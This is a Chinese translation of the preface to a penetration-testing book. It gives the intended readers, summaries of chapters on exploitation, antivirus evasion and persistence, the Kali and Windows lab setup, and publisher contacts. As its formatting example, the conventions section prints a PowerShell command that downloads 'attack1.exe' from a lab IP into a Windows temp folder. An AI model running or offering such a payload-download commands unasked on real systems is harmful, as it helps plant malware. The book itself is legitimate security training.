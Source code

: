 # 前言

也许你刚刚完成了一期关于道德黑客的训练营，但仍然无法满足。也许你是一名管理员，意识到是时候了解坏人如何利用这些黑暗技术。也可能是有人误解了你对喜欢鸟窝的热情，在你生日时送了你这本书。无论你是谁（最后那位除外），这本书都适合你。但为什么选择这本书呢？

坦率地说：这个主题往往很枯燥。有时候，感觉作者只是告诉我们事实，提供了讨论中涉及的概念的基础信息。我认为，如果感觉更像是一个互动式学习会话而不是一堂讲座，体验会更愉快。因此，我努力以更加对话和放松的方式讨论渗透测试。阅读这本书应该感觉我们只是在实验室里一起探索这些概念。我想现在的孩子们称之为“共振”。我得问问我的侄女们。

这本书不适合完全的初学者，但适合不同经验水平的人。总体而言，假设你在信息技术和网络安全方面有一些经验和教育。这本书不会“教你如何入侵”，事实上，许多实验室展示的是旧攻击，不太可能在现实环境中成功。然而，它们提供的基础概念仍然非常相关。这些课程对于那些希望理解核心概念并将其转化为现代攻击的人将是有价值的。这本书强调理解而不是盲目跟随步骤。

# 这本书适合谁

这本书适合渗透测试人员、IT 专业人员以及在展示了在训练营中获得的高级技能后转入渗透测试角色的个人。具有 Windows、Linux 和网络方面的先前经验会很有帮助。

# 这本书涵盖了什么

*第一章*，*开放源情报*，介绍了如何利用公开可用的资源，如 Google，收集关于目标的令人惊讶的有用信息。

*第二章*，*绕过网络访问控制*，检查了如何根据系统的“外观”控制网络访问，并且我们如何调整这种外观。

*第三章*，*嗅探与欺骗*，探索了拦截数据流（或空中数据）并动态操纵数据的世界。

*第四章*，*网络中的 Windows 密码*，审查了 Windows 在网络身份验证过程中管理密码的方式以及如何拦截这些尝试。

*第五章*，*评估网络安全*，提供了一个关于网络分析和使用 Nmap 进行漏洞评估的速成课程，进一步讲解了如何截获数据并注入我们自己的数据，同时回顾了在今天 IPv4 仍占主导地位的世界中 IPv6 的应用。

*第六章*，*密码学与渗透测试*，探讨了如何利用密码学实现中的漏洞进行攻击。

*第七章*，*使用 Metasploit 进行高级利用*，深入探讨了 Metasploit 的内部工作原理，以及如何将 Metasploit 生成的有效载荷与其他优秀工具（如 Shellter）结合使用。

*第八章*，*Python 基础*，从渗透测试者的角度提供了 Python 的速成课程。这一基础知识在本书后续章节中非常有用。

*第九章*，*PowerShell 基础*，同样提供了一个脚本语言 PowerShell 的速成课程。这一基础知识在后续实验中也会非常有用。

*第十章*，*Shellcoding – 栈*，回顾了栈的工作原理及其如何被操控。

*第十一章*，*Shellcoding – 绕过防护*，基于*第十章*中的栈基础，*Shellcoding – 栈*，探讨了防御者如何应对这些攻击，以及诸如面向返回的编程（ROP）等攻击如何在这些应对措施面前做出调整。

*第十二章*，*Shellcoding – 避开杀毒软件*，探讨了当我们利用 PowerShell“生存”时，如何让反恶意软件工具感到困惑，以及 Shellter 动态注入方法的替代方案：洞跳。

*第十三章*，*Windows 内核安全*，为我们提供了关于如何发现内核弱点的基础知识，并探讨了真实世界中的示例。

*第十四章*，*模糊测试技术*，提供了模糊测试方法论的实际回顾，以及如何根据测试结果指导漏洞开发。

*第十五章*，*超越立足点*，探讨了在我们最终在目标系统中建立初步立足点后，如何进行侦察和从这个特权位置进一步发动攻击的步骤。

*第十六章*，*提升特权*，更深入地探讨了我们如何使用 Metasploit 在本地提升特权，以及如何在我们不知道密码的情况下找到并使用密码。

*第十七章*，*保持访问权限*，探讨了在成功进入目标环境后，如何保持访问权限，包括利用目标内置功能和专门工具建立抗重启的访问权限。

*答案* 可以通过提供每章末尾测试题的答案来帮助你检查自己的知识。

# 为了从本书中获得最大收益

本书的目的是尽可能强调 Kali 的现成功能。许多商业产品没有被提及，或者如果提到的话，实验室中会回顾免费的替代品（例如，免费的 Shellter 版本与 Shellter Pro）。今天的专业渗透测试员拥有丰富的优秀商业工具，但你可以仅凭现有的免费工具成为一名有效的渗透测试员。根据《黑客宣言》，这也是我们在这些讨论中的初衷。

本书使用的 Kali Linux 版本是 2021.1；然而，在接近出版日期时，我使用了 2022.1 版本进行实验室测试，未发现任何问题。处理器和栈的讨论假定为 32 位操作系统。

Kali Linux 可以免费下载。然而，Windows 是收费操作系统。幸运的是，微软提供了 Windows Server 的评估版以及 Windows 7 和 10 的 Edge 开发者版；这些版本被用作实验室中的 Windows 目标。

使用的虚拟化软件是 VMware Workstation，它是收费软件。你可以使用免费的 Oracle VirtualBox 构建类似的环境。

![](img/B17616_Preface_Table.jpg)

*Windows Server 的评估版可以从* [`www.microsoft.com/en-us/evalcenter/download-windows-server-2016`](https://www.microsoft.com/en-us/evalcenter/download-windows-server-2016) *下载*。

*Windows 7 或 10 的开发者版可以从* [`developer.microsoft.com/en-us/microsoft-edge/tools/vms/`](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/) *下载*。

# 下载彩色图片

我们还提供了一个 PDF 文件，里面包含本书中截图和图表的彩色图片。你可以在此下载：[`packt.link/7UGEZ`](https://packt.link/7UGEZ)。

# 使用的约定

本书中使用了多种文本约定。

**文本中的代码**：表示文本中的代码词、数据库表名、文件夹名、文件名、文件扩展名、路径名、虚拟 URL、用户输入和 Twitter 账号。例如：“你也可以使用 `from [module] import` 来选择你需要的属性。”

一段代码如下所示：

```
11000000.10101000.01101001.00000000
```

```
          Network           Hosts
```

当我们希望特别指出代码块中的某部分时，相关行或项目会加粗显示：

```
11111111.11111111.11100000.00000000
```

```
   255     255      224       0
```

任何命令行输入或输出都按以下方式书写：

> (New-Object System.Net.WebClient).DownloadFile(“http://192.168.63.143/attack1.exe”, “c:\windows\temp\attack1.exe”)

**粗体**：表示新术语、重要词汇或屏幕上显示的词语。例如，菜单或对话框中的词语通常以**粗体**显示。以下是一个例子：“导航到**主机` | `Nmap 扫描` | `快速扫描（操作系统检测）**。”

提示或重要说明

显示如上所示。

# 联系我们

我们始终欢迎读者的反馈。

**一般反馈**：如果你对本书的任何内容有疑问，请通过电子邮件联系我们：customercare@packtpub.com，并在邮件主题中注明书名。

**勘误表**：虽然我们已尽最大努力确保内容的准确性，但错误偶尔会发生。如果你在本书中发现错误，感谢你能向我们反馈。请访问[www.packtpub.com/support/errata](https://www.packtpub.com/support/errata)并填写表单。

**盗版**：如果你在互联网上发现我们作品的任何非法复制版本，感谢你能提供该位置地址或网站名称。请通过电子邮件联系 copyright@packt.com，并附上相关材料的链接。

**如果你有兴趣成为作者**：如果你在某个领域有专长，且有兴趣撰写或参与书籍的编写，请访问[authors.packtpub.com](https://authors.packtpub.com)。

# 分享你的想法

阅读完*《从零开始的 Windows 和 Linux 渗透测试》*后，我们非常希望听到你的反馈！请[点击这里直接前往亚马逊的评价页面](https://packt.link/r/1801815127)，并分享你的意见。

你的评论对我们和技术社区非常重要，将帮助我们确保提供优质的内容。

